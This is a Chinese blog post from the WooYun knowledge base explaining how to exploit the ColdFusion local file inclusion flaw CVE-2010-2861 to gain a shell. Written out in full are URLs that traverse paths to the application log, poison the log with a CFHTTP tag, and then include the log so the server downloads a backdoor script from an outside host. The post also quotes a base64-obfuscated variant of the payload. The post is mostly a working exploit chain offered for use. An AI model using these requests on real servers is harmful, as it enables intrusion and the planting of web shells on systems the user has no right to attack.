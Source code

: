 # COLDFUSION(CVE-2010-2861) 本地包含利用方法

2014/04/19 13:55 | [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

最近看老外的一篇文章说，CVE-2010-2861 这个利用方法，只有看到过通过读取 password.properties 里的 password 字段，破解 SHA-1 值登陆后台，或者通过传递哈希登陆后台的，还没见过能直接得到 SHELL 的。其实我以前和小伙伴讨论过利用 application.log 本地包含 CFM 的方法，当时的利用方法是这样的：

首先看看 application.log 有没有在默认的目录：

```
http://10.18.180.23:8500//CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\logs\application.log%00en 
```

然后访问一个不存在的页面，注意编码问题，否则不成功的。

```
http://192.168.72.141:8500/%3CCFHTTP%20METHOD%3DGet%20URL%3D%23URL.u%23%20PATH%3D%23URL.p%23%20FILE%3D%23URL.f%23%3E.cfml 
```

这时候就会把`<CFHTTP METHOD=Get URL=#URL.u# PATH=#URL.p# FILE=#URL.f#>`注入到 application.log 里了，看下图：

![2014041409324320691_jpg.jpg](img/img1_u113_jpg.jpg)

最后我们访问

```
http://10.18.180.23:8500//CFIDE/administrator/enter.cfm?locale=................\ColdFusion8\logs\application.log%00en&u=http://10.18.180.20/dvwa/hackable/uploads/xl.txt&p=C:\ColdFusion8\wwwroot&f=shell.cfm 
```

![2014041409332372208_jpg.jpg](img/img2_u105_jpg.jpg)

就会从 10.18.180.20 上把 xl.txt 的 CF 后门脚本下载到目标机器的`c:\ColdFusion8\wwwroot`目录了。

我们看看老外用的方法：思路都是一样的，就是他的 payload 选择的是

```
<cfhttp method='get' url='#ToString(ToBinary('aHR0cDovLzE5Mi4xNjguMS45Nzo4MDAwL2NtZC5jZm1s'))#' path='#ExpandPath(ToString(ToBinary('Li4vLi4v')))#' file='cmd.cfml'> 
```

使用 cfm 的 CFHTTP 标签执行一个 HTTP 请求来取得 192.168.1.97:8000 WEB 服务器上的 cmd.cfml 文件，ToString(ToBinary 是为了做 BASE64 编码，绕过一些字符的限制，比如/

下面说说此法的缺点：

```
1.不是通杀的方法，如果对方禁止对外的 HTTP 访问，此法不行 
2.如果安装的时候是集成到 IIS 模式的，CF 程序目录放到其他盘符的话，是没法使用../跨目录的 
```

版权声明：未经授权禁止转载 [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [PHP 绕过 open_basedir 列目录的研究](http://drops.wooyun.org/tips/3978)
*   [浅谈 PHP 弱类型安全](http://drops.wooyun.org/tips/4483)
*   [Webscan360 的防御与绕过](http://drops.wooyun.org/tips/3790)
*   [HCTF writeup(web)](http://drops.wooyun.org/tips/4070)
*   [Modsecurity 原理分析–从防御方面谈 WAF 的绕过（一）](http://drops.wooyun.org/tips/3804)
*   [.user.ini 文件构成的 PHP 后门](http://drops.wooyun.org/tips/3424)